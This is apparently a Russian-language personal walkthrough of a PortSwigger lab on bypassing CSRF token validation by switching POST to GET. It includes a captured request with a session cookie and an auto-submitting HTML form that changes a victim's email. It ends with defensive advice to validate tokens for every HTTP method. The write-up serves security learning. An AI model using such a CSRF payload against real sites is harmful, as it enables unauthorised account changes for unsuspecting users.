


Токен CSRF - это уникальное, секретное и непредсказуемое значение, которое генерируется серверным приложением и передается клиенту. При отправке запроса на выполнение конфиденциального действия, такого как отправка формы, клиент должен включить правильный токен CSRF. В противном случае сервер откажется выполнить запрошенное действие.

Распространенным способом совместного обмена токенами CSRF с клиентом является включение их в качестве скрытого параметра в HTML-форму, например:

```html
<form name="change-email-form" 
	action="/my-account/change-email" 
	method="POST"> 
	<label>Email</label> 
	<input required type="email" name="email" value="example@normal-website.com"> <input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u"> 
<button 
	class='button' 
	type='submit'> 
	Update email
 </button> 
 </form>
```

то есть токен учавствует в запросе на смену email
сам же csrf часто передается в hidden поле

-----


лаба https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method
#### CSRF, где проверка токена зависит от метода запроса
задание: сделать скрипт - который сменит емайл , скрипт залить на свой сервер и скинуть жертве ссылку

----

вот запрос который меняет емейл

```http
POST /my-account/change-email HTTP/2
Host: 0a3300f903eee1bf81b62add0085001d.web-security-academy.net
Cookie: session=dlLiiPUwyGgged9oUIM44XJnrL5HsWWb
Content-Length: 58
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a3300f903eee1bf81b62add0085001d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3300f903eee1bf81b62add0085001d.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

email=hacker%40bk.ru&csrf=qbpMVkbjvoaGvGWQ85dtLN3g8Ch8rKAx
```

пробую тоже самое - сам себе поменять - переделав в гет запрос

и - сработало - я смог сменить свой емайл поместив параметры в url запроса
`https://0a3300f903eee1bf81b62add0085001d.web-security-academy.net/my-account/change-email?email=hacker332%40bk.ru&csrf=qbpMVkbjvoaGvGWQ85dtLN3g8Ch8rKAx`




------
но так как там в параметрах есть токен - то нужно с ним че-то сделать
ибо - это личный юзер -токен

я тупо его удалил 😂👍 и смог сам себе сменить емайл!
вот так
`https://0a3300f903eee1bf81b62add0085001d.web-security-academy.net/my-account/change-email?email=hacker3532%40bk.ru`




-----

то есть - видимо - для гет метода - нет проверки на наличие csrf токена...

теперь просто можно обычный скрипт отправить

в бурпе беру ориг этот запрос - убираю токен с параметров и просто метод в гет

чтобы ускорить процесс иду сюда со свойм запросом 🍺 https://csrf-poc-generator.vercel.app

и быстро получаю

```html<html>
<html>
  <body>
    <form action="https://0a3300f903eee1bf81b62add0085001d.web-security-academy.net
/my-account/change-email" method="GET">
      <input type="hidden" name="email" value="hacker%40bk.ru" />
    </form>
    <script>
      document.forms[0].submit()
    </script>
  </body>
</html>
```

потом правлю это дело:  %40 на @, так как это чистый вид уже который выполнится

готово
```html
<html>
  <body>
    <form action="https://0a3300f903eee1bf81b62add0085001d.web-security-academy.net/my-account/change-email" method="GET">
      <input type="hidden" name="email" value="hacker99@bk.ru" />
    </form>
    <script>
      document.forms[0].submit()
    </script>
  </body>
</html>
```

отправил на эксплойт сервер лабы и скинул ссылку жертве

лаба решена!


----


#### вывод - не забывать - что проверка должна быть для всех используемых методах!

взлом получился потому что проверка csrf токена работала только для post запросов а для get её не было

я просто переделал post в get убрал токен из параметров и отправил жертве ссылку

браузер жертвы сам добавил куку и запрос прошел

-------

чтобы защититься нужно валидировать csrf токен для всех http методов без исключения

нельзя чтобы проверка зависела от того post это или get

лучше вообще не использовать get для действий которые меняют данные

токен должен проверяться всегда независимо от метода и наличия других параметров

-------
